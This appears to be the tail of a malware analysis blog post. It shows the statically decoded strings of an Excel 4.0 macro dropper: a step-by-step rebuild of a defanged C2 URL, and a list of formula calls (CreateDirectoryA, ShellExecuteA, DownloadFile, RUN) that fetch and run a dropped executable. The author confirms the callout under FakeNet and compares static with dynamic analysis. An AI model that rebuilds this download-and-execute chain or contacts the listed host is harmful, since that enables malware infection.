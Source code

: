 ``` text
EsNDtISBBnaCXk=https ://component[.]pw/wp-i$CD$7333&$AK$10221&$HH$23769&$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=https ://component[.]pw/wp-in$AK$10221&$HH$23769&$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=https ://component[.]pw/wp-ind$HH$23769&$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=https ://component[.]pw/wp-inde$DK$39723&$BH$15533&$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=https ://component[.]pw/wp-index$BH$15533&$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=https ://component[.]pw/wp-index.$AC$35202&$CT$11282&$EY$36257
EsNDtISBBnaCXk=https ://component[.]pw/wp-index.p$CT$11282&$EY$36257
EsNDtISBBnaCXk=https ://component[.]pw/wp-index.ph$EY$36257
EsNDtISBBnaCXk=https ://component[.]pw/wp-index.php
Final: EsNDtISBBnaCXk=https ://component[.]pw/wp-index.php
```

At the end, a dump of the final text strings are listed.  This is where you can find IoC's, Win32 calls, paths to executables that may be dropped, the C&C path that we see here (and I verified it calls out to with FakeNet running).
```
Final strings list:
===========================================
EsNDtISBBnaCXk=C:\jhmKRYC
ygxjnNCysLIfB=(var-cell)
="=RETURN(FORMULA.FILL(EsNDtISBBnaCXk)
=RUN(EsNDtISBBnaCXk=C:\jhmKRYC\POeikcC
EsNDtISBBnaCXk=cmhKasNg
ygxjnNCysLIfB=(var-cell)
="=RETURN(FORMULA.FILL(EsNDtISBBnaCXk)
=RUN(EsNDtISBBnaCXk=dTyIIHMw
EsNDtISBBnaCXk=CreateDirectoryA
EsNDtISBBnaCXk=Shell32
=RUN(EsNDtISBBnaCXk=ShellExecuteA
EsNDtISBBnaCXk=C:\jhmKRYC\POeikcC
EsNDtISBBnaCXk=DownloadFile
=RUN(EsNDtISBBnaCXk=C:\jhmKRYC\POeikcC\XqwFtZi.exe

... and more
```

## Conclusion
This was an exercise to see how much I could learn from this formula code through static analysis.  Many of the findings from above were observed during dynamic analysis but not all.  The more information you have before dynamic analysis the more you can knowingly watch out for and attempt to observe.  The downside of dynamic analysis is that you only see the path the malware takes during that detonation and you may miss a lot of what the malware could potentially do.

Full code to above project is in the [https://github.com/tdmathison/ExcelFormulaExtractor](https://github.com/tdmathison/ExcelFormulaExtractor) repo.